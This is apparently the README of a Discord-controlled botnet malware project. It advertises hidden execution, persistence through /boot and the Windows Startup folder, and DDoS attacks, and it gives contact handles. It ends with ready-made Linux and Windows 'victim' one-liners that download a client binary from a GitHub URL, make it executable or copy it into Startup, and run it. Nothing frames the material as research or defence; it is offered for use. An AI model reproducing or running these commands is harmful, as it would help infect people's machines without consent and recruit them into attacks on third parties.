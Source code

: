 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/202854669-6d08daef-eae2-438b-a354-78b8accb7cb5.png)
- https://discord.gg/vCdPTjD6rZ

# Credits:
Orig - batu.sh#9675

TG @udbnt

# Features
* Hidden (Works in /tmp, %temp% + Console is always hidden)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script

# Commands
![image](https://user-images.githubusercontent.com/104208624/202915584-8783ef8b-edaa-47ea-9034-83ff74c26af9.png)

# Linux victim
cd /tmp; apt-get update -y; apt-get install curl -y; apt-get install python3 -y; curl -O LClient "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 LClient; cp LClient /boot; ./LClient

# Windows victim
cd %temp% & powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile WClient.exe & copy WClient.exe "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" & WClient.exe
